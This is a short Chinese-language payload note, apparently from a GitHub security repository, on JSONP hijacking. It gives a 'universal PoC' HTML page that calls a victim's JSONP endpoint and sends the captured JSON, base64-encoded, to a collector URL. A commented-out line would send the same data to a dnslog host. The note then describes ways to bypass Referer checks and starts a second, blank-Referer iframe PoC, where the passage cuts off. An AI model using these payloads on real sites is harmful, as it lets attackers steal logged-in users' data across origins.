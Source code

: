 <h2><center>常用Payload</center></h2>
万能poc
```html
<!DOCTYPE html>

<html lang='en'>

<head>

    <meta name="referrer" content="never" charset="utf-8">

    <title>jsonp</title>
</head>

<body>

    <h1>万能poc</h1>

</body>

<script type="text/javascript">
   
    function testname(data) {  //这里的函数名要看返回内容是咋样的

        // dnsloag
        //new Image().src="http://jsonp.reiwgah.exeye.io/" + JSON.stringify(data)
  
        var hacker_data = JSON.stringify(data)
        document.write("<p>" + hacker_data + "</p>")
        alert(hacker_data)
        var xmlHttp;
        xmlHttp = new XMLHttpRequest();
        var url = "http://localhost:3000/js_xss/value.php?value=" + btoa(hacker_data);
        xmlHttp.open("GET", url, true);
        xmlHttp.send(null);
    }

</script>

<script src="http://127.0.0.1:3000/js_xss/test.php?callback=testname&name=admin"></script>
```

<h2><center>JSONP绕过</center></h2>
### 绕过Referer头部检测

a、有些检查Referer不严格的，只检查Referer中有自身域名字段（例如：assc.com），我们就可以构造http://attack.com/1.html?a=assc.com就可以直接绕过，与CSRF差不多

b、有时候开发允许Referer置空，毕竟不是访问任何站点都要带Referer。然后就是另外一种置空方式，利用`<iframe>`标签调用 javscript 伪协议来实现空 Referer 调用

```html
<!DOCTYPE html>

<html lang='en'>

<head>
    <title>jsonp 不带Referer</title>
</head>
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

<body>

    jsonp 不带Referer 劫持测试
    <iframe
```
